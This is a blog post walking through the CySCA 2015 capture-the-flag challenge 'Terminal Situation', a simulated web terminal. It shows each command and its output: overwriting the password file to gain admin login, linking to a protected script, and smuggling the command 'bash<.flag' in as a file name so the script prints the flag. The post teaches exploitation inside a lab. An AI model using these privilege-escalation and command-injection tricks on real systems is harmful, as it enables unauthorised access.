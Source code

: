 ```yaml
---
title: CySCA 2015 - Web Application Pentest 6 - Terminal Situation
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```



<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-web-pentest/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *

It's no coincidence this challenge is called Terminal Situation, we have a 
terminal sitting right in front of us. 

{% highlight text %}
<server> connected
{% endhighlight %}

Lets type `help` to see if it will give us a prompt.

{% highlight text %}
> help
AVAILABLE COMMANDS:
help                  display this information
id                    show user id
ps                    list active processes
ip                    list network interfaces
rm                    delete file
ln <src> <dst>        create symlink (admins only)
ls                    list directory entries
  -s                  view file size information
  -h                  view hidden files
uname                 show system information
auth <password>       authenticate as administrator
log <outfile>         append next command output to file
reset                 reset to initial terminal state
{% endhighlight %}

We notice a command `auth` which takes a password to authenticate as an 
administrator. We also notice that using `ln` is a privileged command, 
which indicated we need to become an administrator.

Performing an "ls -h", showing hidden files, reveals

{% highlight text %}
> ls -h
.
..
.flag
.passwd
bin
{% endhighlight %}

The password for the authentication is going to be stored in `.passwd`, however
we have no way of reading files. We do, however, have a method of writing and
deleting, namely `log` and `rm`. 

- `rm .passwd`: Delete the passwd file so we can re-write it
- `log .passwd`: Log the next commands output into .passwd
- `ls` : This outputs `bin` into `.passwd`
- `auth bin`: Using our new password, `bin`, we log in.

{% highlight text %}
> rm .passwd
> log .passwd
[log] next command output will be saved to .passwd
> ls
bin
> auth bin
[auth] admin login successful!
{% endhighlight %}

Okay so now we can fiddle around with the ln command. Lets take a look at 
what's in the `bin` directory. 

{% highlight text %}
> ls -s -h bin
total 40
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 .
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:10 ..
-rwxr-xr-x 1 root     ecwiterm   54 Nov 19 05:42 bash
-rwxr-xr-x 1 ecwiterm ecwiterm    3 Nov 19 05:42 id.sh
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 ip
-rwxr-xr-x 1 root     ecwiterm   53 Nov 19 05:42 ln
-rwxr-xr-x 1 root     ecwiterm   58 Nov 19 05:42 ls
-rwxr-xr-x 1 root     ecwiterm   49 Nov 19 05:42 ps
-rwxr-xr-x 1 root     ecwiterm   55 Nov 19 05:42 rm
-rwxr-xr-x 1 root     ecwiterm   52 Nov 19 05:42 uname
{% endhighlight %}

The only file we have write access to is id.sh. Lets see if we can write 
arbitrary commands into it:

{% highlight text %}
> log bin/id.sh
log: invalid log file, can't use bin directory
{% endhighlight %}


I'm not surprised. What if we create a symbolic link to the script and try log
to it? 

{% highlight text %}
> ln bin/id.sh id.sh
> ls -s -h
total 20
drwxrwxr-x 3 root     ecwiterm 4096 Nov 19 08:14 .
drwxr-xr-x 3 root     ecwiterm 4096 Nov 19 05:42 ..
-rwxr-xr-x 1 root     ecwiterm   39 Nov 19 05:42 .flag
-rw-rw-r-- 1 ecwiterm ecwiterm    3 Nov 19 08:10 .passwd
drwxr-xr-x 2 root     ecwiterm 4096 Nov 19 05:42 bin
lrwxrwxrwx 1 ecwiterm ecwiterm    9 Nov 19 08:14 id.sh -> bin/id.sh
{% endhighlight %}

Perfect. Now lets set up the command we want to run when we invoke `id`. We can 
write arbitrary commands using ls <filename> provided the file exists, so we create
the command we want:

{% highlight bash %}
> log bash<.flag
[log] next command output will be saved to bash<.flag
> ls
bin
id.sh
> ls bash*
bash<.flag
{% endhighlight %}

Our command to write will be `bash<.flag`. We now need to write this into the
script. 

{% highlight text %}
> log id.sh
[log] next command output will be saved to id.sh
> ls bash*
bash<.flag
> id
[error] uid=1002(ecwiterm) gid=1002(ecwiterm) groups=1002(ecwiterm)
bash: line 1: $'FLAG{4b000000000000000000000000000000}\r': command not found
{% endhighlight %}

And thanks to bash's useful error messages, it prints out the flag for us.

